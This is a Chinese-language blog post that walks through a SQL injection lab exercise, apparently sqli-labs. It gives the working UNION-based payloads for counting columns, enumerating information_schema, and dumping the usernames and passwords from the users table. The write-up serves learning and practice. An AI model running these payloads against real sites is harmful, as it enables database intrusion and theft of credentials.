 ```yaml
---
layout: post
title:  "我的SQL（1）"
desc: "新手上路"
keywords: "sql"
date: 2016-11-10
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


# Writeup
首先注入

>### ?id=1。

Ok。出现Your Login name和Password。

再添加一个单引号。
嗯？！出现sql语句报错，说明存在sql注入，因为没有过滤单引号，所以我们可以用单引号来做文章啦。

接下来，就是猜字段了。

>### ?id=1’ order by 3#

可怕的事出现了。报错了。#没有被编码。香菇。上网找了一下#的URL编码为%23

所以改为

>### ?id=1’ order by 3%23

有显示。试了一下4 。呐报错了。只有三个字段。

接下来就是查询啦啦啦、

>### ?id=1’ union select 1,2,3%23

What？为什么只显示了当`id=1`的东西。What？真让人头大。只好去看源码。

函数`mysql_fetch_array`只被调用了一次，而这个函数只能取得一行行为，也就是说，怎么变它也只能显示第一行的东西。也就是`id=1`。怎么办。让id=1出错？好像能行。

上网一搜。呐id的值通常都是从1开始自增的。我们可以把d设为非正数，浮点数，字符型或字符串都行。

试试?

>### id=0’ union select 1,2,3%23

OK！出来了。太棒了。开始真正搞事情了。、

但是只有两行，怎么列出所有的。呐不担心上网一搜什么都能告诉你。

数据库有一个连接函数，常用的是`concat`和`concat_ws`。其中`concat_ws`的第一个参数是连接字符串的分隔符。

{% highlight sql %}
?id=0' union select 1,2,concat_ws(char(32,58,32),user(),database(),version())%23
{% endhighlight %}

呐。出来了出来了。第一个是当前用户，当前数据库和版本信息。

知道数据库名了。就去查数据库的表啦。。
（首先说一下`mysql`的数据库`information_schema`，他是系统数据库，安装完就有，记录是当前数据库的数据库，表，列，用户权限等信息，下面说一下常用的几个表

`SCHEMATA`表:储存`mysql`所有数据库的基本信息，包括数据库名，编码类型路径等，`show databases`的结果取之此表。

`TABLES`表:储存`mysql`中的表信息，（当然也有数据库名这一列，这样才能找到哪个数据库有哪些表嘛）包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等。`show tables from schemaname`的结果取之此表

`COLUMNS`表：提供了表中的列信息，（当然也有数据库名和表名称这两列）详细表述了某张表的所有列以及每个列的信息，包括该列是那个表中的第几列，列的数据类型，列的编码类型，列的权限，猎德注释等。是`show columns from schemaname.tablename`的结果取之此表。）

摘自http://blog.csdn.net/u012763794/article/details/51207833

介绍完就开干。

{% highlight sql %}
?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security'%23
{% endhighlight %}

数据库默认显示`limit 0,1`。第一个是`emails`。接着找，用`limit`来偏移。具体如下：

{% highlight sql %}

?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security' limit 1,1%23

?id=0’ union select 1,2,table_name from information_schema.tables where table_schema='security' limit 2,1%23

?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security'limit 3,1%23

{% endhighlight %}

分别是`refers`、`uagents`、`users`。

继续

{% highlight sql %}

?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security' limit 4,1%23

{% endhighlight %}

报错了。只有三个。可以下一步啦。

我们注入当然就只对用户密码有想法啦。所以去爆破`users`哈哈哈、

{% highlight sql %}
?id=0' union select 1,2,column_name from information_schema.columns where table_shcema='security' and table_name='users' limit 0,1%23
{% endhighlight %}

不断地偏移。到第四行就报错。也就说有3个字段。

分别是`id`、`username`、`password`

Ok！知道字段就开始获取数据啦。直接`select`出来就好啦。

{% highlight sql %}
?id=0' union select 1,2,concat_ws(char(32,58,32),id,username,password) from users limit 0,1%23
{% endhighlight %}

得到要得到数据。成功。Yeah！

